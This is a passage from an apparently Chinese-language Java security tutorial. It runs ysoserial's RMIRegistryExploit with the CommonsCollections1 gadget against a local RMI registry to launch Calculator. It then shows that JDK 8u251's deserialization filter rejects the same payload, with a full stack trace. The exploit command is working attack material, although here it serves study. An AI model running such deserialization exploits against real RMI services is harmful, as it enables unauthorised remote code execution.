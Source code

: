 其次引入gadget需要的环境:

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```

切到ysoserial的jar包目录下使用`RMIRegistryExploit`进行攻击:

```shell
java -cp ./ysoserial-master-4df2ee2bb5-1.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 11111 CommonsCollections1 "/System/Applications/Calculator.app/Contents/MacOS/Calculator"
```
成功执行命令,接着把jdk版本切换到1.8u251,重新启动rmiServer,并且重新执行上面的命令,结果为报错:

```text

java.rmi.ServerException: RemoteException occurred in server thread; nested exception is:
	java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
	java.io.InvalidClassException: filter status: REJECTED
	at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:389)
	at sun.rmi.transport.Transport$1.run(Transport.java:200)
	at sun.rmi.transport.Transport$1.run(Transport.java:197)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
	at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:573)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:834)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$0(TCPTransport.java:688)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:687)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
	at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:303)
	at sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:279)
	at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:379)
	at sun.rmi.registry.RegistryImpl_Stub.bind(RegistryImpl_Stub.java:73)
	at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:77)
	at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:71)
	at ysoserial.secmgr.ExecCheckingSecurityManager.callWrapped(ExecCheckingSecurityManager.java:72)
	at ysoserial.exploit.RMIRegistryExploit.exploit(RMIRegistryExploit.java:71)
	at ysoserial.exploit.RMIRegistryExploit.main(RMIRegistryExploit.java:65)
Caused by: java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
	java.io.InvalidClassException: filter status: REJECTED
	at sun.rmi.registry.RegistryImpl_Skel.dispatch(RegistryImpl_Skel.java:94)
	at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:469)
	at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:301)
	at sun.rmi.transport.Transport$1.run(Transport.java:200)
	at sun.rmi.transport.Transport$1.run(Transport.java:197)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
	at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:573)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:834)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$0(TCPTransport.java:688)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:687)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
Caused by: java.io.InvalidClassException: filter status: REJECTED
```